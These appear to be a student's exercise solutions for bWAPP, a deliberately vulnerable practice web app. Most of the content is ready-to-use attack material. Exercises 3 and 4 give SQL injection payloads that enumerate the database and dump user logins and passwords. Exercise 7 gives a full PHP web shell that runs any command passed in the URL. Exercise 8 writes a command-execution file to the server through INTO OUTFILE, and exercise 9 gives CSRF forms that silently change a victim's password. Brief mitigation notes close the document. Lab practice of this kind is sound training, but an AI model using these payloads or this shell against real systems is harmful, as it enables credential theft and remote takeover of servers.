 #################################################################

ex3:
a.         ll' or 1=1 -- -
b.         ll' order by 8 -- -
c.         ll' union select 1,2,3,4,5,6,7-- -
d.         ll' union  select 1,current_user(), schema(), 4, 5, 6, 7 -- -
e.         ll' union select 1,DATABASE(),3,4,5,6,7-- -
f.         ll' UNION SELECT 1, table_name, 3, 4, 5, 6, 7 FROM information_schema.tables-- -
g.         ll' UNION SELECT table_name, column_name, 3,4,5,6,7 FROM information_schema.columns where table_name = "users" -- -
h.         ll' UNION SELECT 1, login, 3,password,5,6,7 FROM users-- -

#################################################################

ex4:
a. movie=11 UNION SELECT 1, group_concat(Title),3, 4, 5, 6, 7 FROM bWAPP.movies
b. movie=1 order by 8-- 
c. movie=11 and 1=0 UNION SELECT 1,2,3,4,5,6,7-- 
d. movie=1 and 1=0 UNION SELECT 1,current_user(),schema(),4,5,6,7--
e. movie=1 and 1=0 UNION SELECT 1,database(),3,4,5,6,7--
f. movie=1 and 1=0  UNION SELECT 1,2, group_concat(table_name),4,5,6,7 FROM information_schema.tables
g. movie=1 and 1=0  UNION SELECT 1,2, group_concat(column_name),4,5,6,7 FROM information_schema.columns where table_name = "users" 
h. movie=1 and 1=0 UNION SELECT 1, group_concat(login), group_concat(password), 4, 5, 6, 7 FROM bWAPP.users

#################################################################

ex5:
search: it will be the same, ther's no real difference between get and post. it onlly a matter of which side is the asking side...
select: no url is shown! but you can still inject, although it will be harder since you can't see the url.

#################################################################

ex6:
ajax is pretty much the same, it seats on the client side but the queries are the same.
(a cool thing you can do with ajax is intercept the packets with burp and see all the reply the client gets)

#################################################################

ex7:
followed this guide:  (might not work on docker, it worked on a docker on port 8083 and didnt work on 8080)   
https://cylab.be/blog/255/web-shells-and-the-dangers-of-unrestricted-file-upload?accept-cookies=1

for the shel script i put this one instead the huge one in the guide:

    <html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
    

#################################################################

ex8:
****** note! this exercise onlly works on bwapp vm, not on the docker. ******

in get search we put the following query:
'union select 1,"<?=`$_GET[_]`?>",3,4,5,6,7 INTO OUTFILE "/var/www/bWAPP/images/file.php"-- -
then we open a broser and in the url go to that file, and add the command in the end:
localhost/bWAPP/images/file.php/?_=ls


#################################################################

ex9:
for low level:
create html file and put the html form in it (from the source code) and change it a little so when you click 
the botton it will put the new password automatically. after the small modifications it looks like this:
<form action="/csrf_1.php" method="GET">

        <input type="hidden" value="new_pass" id="password_new" name="password_new"></p> 

        <input type="hidden" value="new_pass" id="password_conf" name="password_conf"></p>

        <button type="submit" name="action" value="give me my money!">give me my money</button>

    </form>

then we upload the file in the "Unrestricted File Upload" section in bwapp and click the "give me my money!" botton to activate it.
and hop! we changed the user's password (and directed him to another page) with him doing nothing but press a botton!
this is how cross site request forgery attack works!

for medium/high level same thing just add the field for current password:

<form action="/csrf_1.php" method="GET">


        <input type="password" id="password_curr" name="password_curr"></p>

        <input type="hidden" value="bug" id="password_new" name="password_new"></p>

        <input type="hidden" value="bug" id="password_conf" name="password_conf"></p>

        <button type="submit" name="action" value="give me money!">give me my money</button>

    </form>

#################################################################
ex11:
a. sql inection... solotion: sanitize.
b. injection of java script code that will be executed. solution: sanitize of js tags and more.
c. injection of php code that will be executed when they include it in the next line. solution: sanitize of php files.
d. sql injection is not possible because the login might be sanitized befor entered to the session. 
   but request forgery (the username) is possible.
   solution: use csrf token to make sure that the real user submit the request and prevent request forgery.